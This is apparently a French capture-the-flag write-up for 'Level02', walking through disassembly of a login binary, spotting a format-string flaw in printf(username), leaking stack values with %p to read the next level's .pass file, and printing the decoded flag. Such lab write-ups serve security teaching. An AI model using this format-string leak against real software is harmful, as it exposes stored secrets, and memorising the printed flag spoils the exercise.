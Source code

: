 # Level02

En lancant le binaire, on peut s'attendre à voir :

```sh
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username:
--[ Password:
*****************************************
 does not have access!
```

Ensuite en vérifiant la liste des symboles disponibles, on trouve:

```sh
Non-debugging symbols:
0x0000000000400640  _init
0x0000000000400670  strncmp
0x00000000004006b0  system
0x00000000004006c0  printf
0x00000000004006f0  fgets
0x0000000000400700  fopen
0x0000000000400710  exit
0x0000000000400814  main
```

Dans la premiere partie du code on peut voir :

```sh
	mov    edx,0x400bb0
	mov    eax,0x400bb2  # <-- 0x400bb2 Contient "/home/users/level03/.pass"
	mov    rsi,rdx
	mov    rdi,rax
	call   0x400700 <fopen@plt> # <-- Ouvre le fichier donner en parametre

```

Une fois avoir disass le main, on peut y trouver :

```sh
	mov    edx,0x29               # <-- EDX = 41
	mov    rsi,rcx                # <-- RSI = Le password qui se trouvera dans le fichier "/home/users/level03/.pass"
	mov    rdi,rax                # <-- RDI = L'input du password
	call   0x400670 <strncmp@plt> # <-- Strncmp compare les registre rsi et rdi et prends en lenght edx
	test   eax,eax                # <-- Pour atteindre system il faut que eax = 0
	jne    0x400a96 <main+642>
	mov    eax,0x400d22
...
	call   0x4006c0 <printf@plt>
	mov    edi,0x400d32            # <-- Contient "/bin/sh"
	call   0x4006b0 <system@plt>   # <-- Besoin de passer par cette ligne
...
	call   0x4006c0 <printf@plt>   # <-- Cette appel a printf engendre une erreur
	mov    edi,0x400d3a
	call   0x400680 <puts@plt>

```

Vu que le code fais une comparaison pour pouvoir acceder a l'appel de la function systeme il nous
faut le code qui se trouve dans le fichier `.pass`.

```c
	char username [100];
...
	printf("--[ Username: ");
	fgets(username,100,stdin);
...
	printf(username); // Cette ligne cree une erreur car il n'est pas specifice de type avec le %.
	puts(" does not have access!");
```

Donc nous allons l'utiliser pour trouver le mot de passe du fichier `.pass`.

Le mot de passe est stoqué dans un buffer se trouvant sur la stack. À chaque paramètre
supplémentaire présent dans le `printf`, on recule sur la stack. Cela nous permet de l'afficher.

En affichant un maximum de `%p`, on peut assez rapidement se faire une bonne idée de ce à quoi
ressemble cette stack.

En testant plusieurs possibilités, on trouve assez rapidement les valeurs:

```
0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d
```

Le reste est principalement des valeurs nulles, ou des pointeurs. Ces valeurs sont petit
boutiste. Il faut donc les convertir. On peut utiliser [ce service](https://www.save-editor.com/tools/wse_hex.html)
pour la convertion.

Cela donne:

```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

C'est notre flag.

